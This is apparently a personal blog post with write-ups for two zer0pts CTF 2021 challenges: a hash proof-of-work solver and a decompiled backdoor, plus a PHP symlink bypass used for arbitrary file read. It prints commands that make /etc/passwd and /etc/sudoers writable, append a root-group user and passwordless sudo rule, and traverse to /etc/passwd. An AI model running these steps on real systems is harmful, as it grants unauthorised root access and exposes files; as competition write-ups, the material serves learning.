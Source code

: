 ```yaml
---
layout: post
title:  "zer0pts CTF 2021 writeups"
date:   2021-03-07 19:59:36 +0200
categories: ctf
---
```


These are the writeups for the [zer0pts CTF 2021](https://2021.ctf.zer0pts.com/) challenges that I personally solved. Pretty hard challenges, but again learned a lot!

## infected

There are two parts to this challenge. First to get through the initial part and to get a shell we need to figure out what input produces the correct hash when we have part of the source and the hash. Let's write a Python program to get past it:
```python=
from pwn import *
import itertools
import hashlib
import string


r = remote ('others.ctf.zer0pts.com',11011)

chall = r.recvline().decode('utf-8')

hashval = chall.split("=")[1].strip()
suffix = chall.split("=")[0][12:32]


table = string.ascii_letters + string.digits + "._"

for v in itertools.product(table, repeat=4):
    if hashlib.sha256((''.join(v) + suffix).encode()).hexdigest() == hashval:
        prefix = ''.join(v)
        print("[+] Prefix = " + prefix)
        r.sendline(prefix)
        r.interactive()
        break
else:
    print("[-] Solution not found :thinking_face:")

```
Now we have a shell and neet to read the flag at `/root`.  Reverse the provided binary with Ghidra to reveal how the backdoor works:
```c=
void backdoor_write(undefined8 param_1,char *param_2,size_t param_3)

{
  int iVar1;
  __mode_t __mode;
  char *__s;
  char *__s1;
  char *__file;
  char *__nptr;
  long in_FS_OFFSET;
  stat64 local_a8;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __s = strndup(param_2,param_3);
  if (__s == (char *)0x0) {
    fuse_reply_err(param_1,0x16);
    goto LAB_00100c8c;
  }
  __s1 = strtok(__s,":");
  __file = strtok((char *)0x0,":");
  __nptr = strtok((char *)0x0,":");
  if (((__s1 == (char *)0x0) || (__file == (char *)0x0)) || (__nptr == (char *)0x0)) {
    fuse_reply_err(param_1,0x16);
  }
  else {
    iVar1 = strncmp(__s1,"b4ckd00r",8);
    if (iVar1 == 0) {
      stat64(__file,&local_a8);
      if ((local_a8.st_mode & 0xf000) == 0x8000) {
        __mode = atoi(__nptr);
        iVar1 = chmod(__file,__mode);
        if (iVar1 == 0) {
          fuse_reply_write(param_1,param_3,param_3);
          goto LAB_00100c7d;
        }
      }
      fuse_reply_err(param_1,0x16);
    }
    else {
      fuse_reply_err(param_1,0x16);
    }
  }
LAB_00100c7d:
  free(__s);
LAB_00100c8c:
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
It reads from stdin and calls `chmod(2)` so it can be used to modify file permissions. The device is `/dev/backdoor` and the syntax of the command is `b4ckd00r:filename:permissions`.

Modify some file permissions:
```
echo "b4ckd00r:/etc/sudoers:222" > /dev/backdoor
echo "b4ckd00r:/etc/passwd:222" > /dev/backdoor
echo "pwn:x:1000:0:pwn:/root:/bin/sh" >> /etc/passwd
echo "pwn  ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "b4ckd00r:/etc/sudoers:444" > /dev/backdoor
```

and then `sudo su`to get a root shell and the flag.

## GuestFS::AFR
The source code is provided:
```php=
  function create($name, $type=0, $target="")
    {
        $this->validate_filename($name);

        if ($type === 0) {

            /* Create an empty file */
            $fp = @fopen($this->root.$name, "w");
            @fwrite($fp, '');
            @fclose($fp);

        } else {

            /* Target file must exist */
            $this->assert_file_exists($this->root.$target);

            /* Create a symbolic link */
            @symlink($target, $this->root.$name);

            /* This check ensures $target points to inside user-space */
            try {
                $this->validate_filepath(@readlink($this->root.$name));
            } catch(Exception $e) {
                /* Revert changes */
                @unlink($this->root.$name);
                throw $e;
            }

        }
    }

    * Security Functions */
    function validate_filepath($path)
    {
        if (strpos($path, "/") === 0) {
            throw new Exception('invalid filepath (absolute path)');
        } else if (strpos($path, "..") !== false) {
            throw new Exception('invalid filepath (outside user-space)');
        }
    }

    function validate_filename($name)
    {
        if (preg_match('/[^a-z0-9]/i', $name)) {
            throw new Exception('invalid filename');
        }
    }

    function assert_file_exists($name)
    {
        if (file_exists($name) === false
            && is_link($name) === false) {
            throw new Exception('file not found');
        }
    }

```
It reveals how to bypass the security checks using the following steps:

1. create regular file foo
2. create symlink bar to foo
3. delete regular file foo (it just unlinks)
4. create new symlink bar to LFI `/../../../../../etc/passwd`
5. read contens of foo

the flag location is `/../../../../../flag`

